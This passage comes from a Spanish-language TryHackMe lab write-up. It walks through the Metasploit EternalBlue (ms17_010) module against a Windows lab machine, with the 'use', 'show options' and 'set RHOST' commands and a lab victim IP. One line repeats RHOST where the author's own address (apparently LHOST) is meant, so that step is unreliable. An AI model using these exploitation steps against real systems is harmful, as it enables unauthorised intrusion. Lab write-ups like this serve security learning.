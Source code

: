 # EXPLOTACIÓN

#### 4- USO EL EXPLOIT
- Voy a usar el exploit con el ID 24
```
use 0
# ó
use exploit/windows/smb/ms17_010_eternalblue
```
![](img/Pasted%20image%2020240818214304.png)

#### 5- VER/CAMBAIR OPCIONES
- Veo las opciones que tiene
```
show options
```
![](img/Pasted%20image%2020240818214343.png)

- Tengo que introducir la IP de la máquina victima y cambiar mi IP, porque al estar en TRYHACME me da otro rango la IP `10.2.37.7`. NO HAY QUE PONERSE A LA ESCUCHA. Me da directamente un `meterpreter`. 
```
set RHOST 10.10.65.129
```
```
set RHOST 10.2.37.7
```
```
show options
```